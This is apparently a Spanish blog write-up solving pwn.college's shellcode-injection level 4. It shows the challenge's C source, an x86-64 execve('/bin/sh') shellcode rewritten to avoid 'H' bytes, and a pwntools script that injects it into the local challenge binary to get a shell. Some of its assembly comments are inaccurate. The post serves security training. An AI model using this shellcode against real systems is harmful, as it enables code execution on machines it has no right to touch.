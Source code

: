 ```yaml
---
layout: post
title: Shellcode Injection Dojo - level 4
comments: true
categories: [Pwn, Writeups, Pwn.college]
---
```


En esta serie de posts nos dedicaremos a resolver los ejercicios de *shellcoding* de [pwn.college](https://pwn.college/program-security/shellcode-injection/). 

<br>
![Image]({{ site.baseurl }}/images/posts/pwn-college/yellow.svg){:width="200px"}
<br>

# Reconocimiento

Este será el primero, por lo tanto no será un ejercicio difícil. En `/challenge/babyshell-level-4.c`:


```c
void *shellcode;
size_t shellcode_size;

int main(int argc, char **argv, char **envp)
{
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    printf("###\n");
    printf("### Welcome to %s!\n", argv[0]);
    printf("###\n");
    printf("\n");

    puts("This challenge reads in some bytes, modifies them (depending on the specific challenge configuration), and executes them");
    puts("as code! This is a common exploitation scenario, called `code injection`. Through this series of challenges, you will");
    puts("practice your shellcode writing skills under various constraints! To ensure that you are shellcoding, rather than doing");
    puts("other tricks, this will sanitize all environment variables and arguments and close all file descriptors > 2.\n");
    for (int i = 3; i < 10000; i++) close(i);
    for (char **a = argv; *a != NULL; a++) memset(*a, 0, strlen(*a));
    for (char **a = envp; *a != NULL; a++) memset(*a, 0, strlen(*a));

    shellcode = mmap((void *)0x2232c000, 0x1000, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_PRIVATE|MAP_ANON, 0, 0);
    assert(shellcode == (void *)0x2232c000);
    printf("Mapped 0x1000 bytes for shellcode at %p!\n", shellcode);

    puts("Reading 0x1000 bytes from stdin.\n");
    shellcode_size = read(0, shellcode, 0x1000);
    assert(shellcode_size > 0);

    puts("Executing filter...\n");
    puts("This challenge requires that your shellcode have no H bytes!\n");
    for (int i = 0; i < shellcode_size; i++)
        if (((uint8_t *)shellcode)[i] == 'H')
        {
            printf("Failed filter at byte %d!\n", i);
            exit(1);
        }

    puts("This challenge is about to execute the following shellcode:\n");
    print_disassembly(shellcode, shellcode_size);
    puts("");

    puts("Executing shellcode!\n");
    ((void(*)())shellcode)();

    printf("### Goodbye!\n");
}
```

Simplemente lee `0x1000 bytes` y los ejecuta, teniendo en cuenta eso sí que no se utilice `H`.

# Explotación

De primeras podríamos probar con algo así:

```java
; Preparación de la syscall execve
push 59                    ; Syscall number for execve
pop rax                    ; rax = 59 (syscall number)
cdq                        ; edx = 0 (envp = NULL)
push rdx                    ; NULL
pop rsi                    ; rsi = NULL (argv)

; Coloca la cadena '/bin/sh' en el stack
; Primero coloca '/bin'
mov rcx, 0x0068732f6e69622f ; 'bin//' en hexadecimal
push rcx                    ; Coloca '/bin' en el stack

; Luego coloca 'sh'
xor rdx, rdx                ; rdx = 0 (envp = NULL)
push rdx                    ; NULL
mov rcx, 0x68732f2f         ; 'sh' en hexadecimal
push rcx                    ; Coloca 'sh' en el stack

; Prepara los argumentos de execve
push rsp                    ; Dirección de la cadena '/bin//sh'
pop rdi                     ; rdi = "/bin//sh" (primer argumento)

syscall                     ; Llamada al sistema para ejecutar execve
```

Sin embargo, recibiremos una salida con `Failed filter at byte 6!`, Ya que el shellcode contiene dicho byte (`0x48`), esto podemos verlo imprimiendo el shellcode: `b'j;X\x99R^H\xb9/bin/sh\x00QH1\xd2RH\xc7\xc1//shQT_\x0f\x05'`.

## Shellcode sin H

Un posible shellcode es el siguiente:

```java
push 0x68                      ; Coloca 0x68 en el stack (representa 'h' en 'sh')
push 0x6e69622f                ; Coloca 'bin/' (en hexadecimal) en el stack
mov dword ptr [rsp+4], 0x732f2f2f ; Mueve '///s' al espacio de la pila, creando la cadena '/bin/sh'
push rsp                       ; Apila la dirección de '/bin/sh'
pop rdi                        ; Coloca la dirección de '/bin/sh' en rdi (primer argumento para execve)

push 0x2d006873                ; Coloca 'h-s' en el stack
mov dword ptr [rsp+4], 0x70     ; Coloca 'p' en la pila para completar el argumento
xor esi, esi                   ; Rellena rsi con 0 (para 'argv')
push rsi                        ; Empuja 0 (NULL) a rsi
push rsp                        ; Apila la dirección de los argumentos
add dword ptr [rsp], 0xb         ; Agrega 0xb a la dirección de la pila (creando el string para execve)
push rsp                        ; Apila la dirección final
add dword ptr [rsp], 0x10        ; Realiza un pequeño ajuste en el puntero de la pila
push rsp                        ; Apila nuevamente
pop rsi                         ; Coloca la dirección en rsi (como segundo argumento de execve)
xor edx, edx                    ; Establece edx a NULL (tercer argumento de execve)
push 0x3b                       ; Coloca 0x3b (el número de syscall para execve)
pop rax                         ; Coloca el número de syscall (59 para execve) en rax
syscall                         ; Llama a la syscall (ejecuta execve)
```

Con este shellcode nos saltamos la limitación y conseguimos la shell:

<br>
![Image]({{ site.baseurl }}/images/posts/pwn-college/shellcoding-level-4.png){:width="900px"}
<br>

## Script

```python
#! /bin/python3

from pwn import *

context.arch = 'amd64'

shellcode = asm("""
    push 0x68
    push 0x6e69622f
    mov dword ptr [rsp+4], 0x732f2f2f
    push rsp
    pop rdi
    push 0x2d006873
    mov dword ptr [rsp+4], 0x70
    xor esi, esi
    push rsi
    push rsp
    add dword ptr [rsp], 0xb
    push rsp
    add dword ptr [rsp], 0x10
    push rsp
    pop rsi
    xor edx, edx
    push 0x3b
    pop rax
    syscall
""")

print(shellcode)

print(asm("""
    xor rdi, rdi"""))

p = process("/challenge/babyshell-level-4")

p.send(shellcode)

p.interactive()
```

<br>
![Image]({{ site.baseurl }}/images/posts/pwn-college/shellcoding-level-4-flag.png){:width="700px"}
<br>